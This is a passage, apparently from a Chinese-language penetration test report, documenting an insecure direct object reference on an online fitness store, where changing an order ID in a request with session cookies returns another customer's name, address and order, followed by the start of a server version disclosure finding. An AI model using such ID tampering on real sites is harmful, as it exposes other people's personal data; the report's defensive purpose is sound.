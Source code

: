```
    <h2>Order #12345</h2>
    <p><strong>Customer Name:</strong> John Doe</p>
    <p><strong>Shipping Address:</strong> 123 Elm Street, Springfield, 49017</p>
    <p><strong>Order Items:</strong> 1x Weightlifting Belt, 2x Kettlebell (24kg)</p>
    <p><strong>Total:</strong> $150.00</p>
</div>
```

修改后的 URL：

```
GET /orders/view/12346 HTTP/1.1
Host: www.flexfactory.fitness
Cookie: sessionid=abc123xyz789; csrftoken=3f6f05b93d5ff146ed4bcca2635739772f6f57f2a68fb7491bc9515ba065d47a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3
```



```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: nginx/1.18.0
Date: Mon, 04 Mar 2024 12:00:00 GMT
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000; includeSubDomains


<div class="order-details">
    <h2>Order #12346</h2>
    <p><strong>Customer Name:</strong> Alice Johnson</p>
    <p><strong>Shipping Address:</strong> 456 Maple Avenue, Anytown, 90210</p>
    <p><strong>Order Items:</strong> 3x Yoga Mat, 1x Resistance Bands Set</p>
    <p><strong>Total:</strong> $85.00</p>
</div>
```

## Web服务器标头信息泄露

**观察**

您看到 Nginx 的运行版本在 HTTP 标头中公开。

**证据**

来自服务器的以下命令和响应显示了 Web 服务器设置的标头：

```
curl -I http://88.xxx.xxx.11
```
